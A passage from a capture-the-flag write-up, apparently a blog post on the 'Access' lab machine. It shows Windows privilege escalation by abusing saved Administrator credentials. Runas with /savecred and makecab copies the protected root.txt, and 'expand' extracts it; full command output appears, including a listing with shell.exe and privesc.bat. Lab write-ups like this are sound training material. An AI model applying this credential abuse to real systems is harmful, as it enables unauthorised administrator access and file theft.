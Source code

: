 ~~~~
Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
                                                       Type: Domain Password
    User: ACCESS\Administrator
{% endhighlight %}

We can take advantage of this weekness by "runas" command with "/savecred" parameter.<br>
For .exe file, we have to specify its full path.<br>
Highly recommend to spin up windows 10 VM and test the command because it does not have any error output when we attack "Access" with telnet.

{% highlight shell %}
C:\Users\security>runas /user:Administrator /savecred "C:\windows\system32\makecab.exe C:\Users\Administrator\desktop\root.txt c:\users\security\root.cab"

C:\Users\security>dir
 Volume in drive C has no label.
 Volume Serial Number is 9C45-DBF0

 Directory of C:\Users\security

02/14/2019  08:20 PM    <DIR>          .
02/14/2019  08:20 PM    <DIR>          ..
08/24/2018  07:37 PM    <DIR>          .yawcam
02/11/2019  08:04 PM           325,432 accesschk.exe
08/21/2018  10:35 PM    <DIR>          Contacts
08/28/2018  06:51 AM    <DIR>          Desktop
08/21/2018  10:35 PM    <DIR>          Documents
08/21/2018  10:35 PM    <DIR>          Downloads
08/21/2018  10:35 PM    <DIR>          Favorites
08/21/2018  10:35 PM    <DIR>          Links
08/21/2018  10:35 PM    <DIR>          Music
08/21/2018  10:35 PM    <DIR>          Pictures
02/11/2019  08:03 PM            31,761 privesc.bat
02/14/2019  08:20 PM               113 root.cab
08/21/2018  10:35 PM    <DIR>          Saved Games
08/21/2018  10:35 PM    <DIR>          Searches
02/13/2019  08:37 PM            73,802 shell.exe
08/24/2018  07:39 PM    <DIR>          Videos
               4 File(s)        431,108 bytes
              14 Dir(s)  16,761,311,232 bytes free
{% endhighlight %}

we can use "expand" command to extract .cab file.<br>
By extracting root.cab, we can achieve root.txt.

{% highlight shell %}
C:\Users\security>expand root.cab root.txt
Microsoft (R) File Expansion Utility  Version 6.1.7600.16385
Copyright (c) Microsoft Corporation. All rights reserved.

Adding C:\Users\security\root.txt to Extraction Queue

Expanding Files ....

Expanding Files Complete ...

C:\Users\security>dir
 Volume in drive C has no label.
 Volume Serial Number is 9C45-DBF0

 Directory of C:\Users\security
~~~~